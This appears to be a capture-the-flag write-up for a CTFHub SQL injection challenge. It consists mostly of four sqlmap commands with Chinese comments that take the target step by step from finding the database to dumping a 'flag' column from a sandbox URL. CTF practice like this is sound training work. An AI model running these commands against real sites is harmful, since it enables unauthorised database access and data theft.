




```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 --current-db --batch
//查询当前数据库名
```



```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli --tables --batch
//查询sqli内所有的表
```



```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag --columns --batch
//查询flag表内的字段
```



```sql
python sqlmap.py http://challenge-aeba318a505edece.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag -C "flag" --dump --batch
//查询flag字段的内容
```


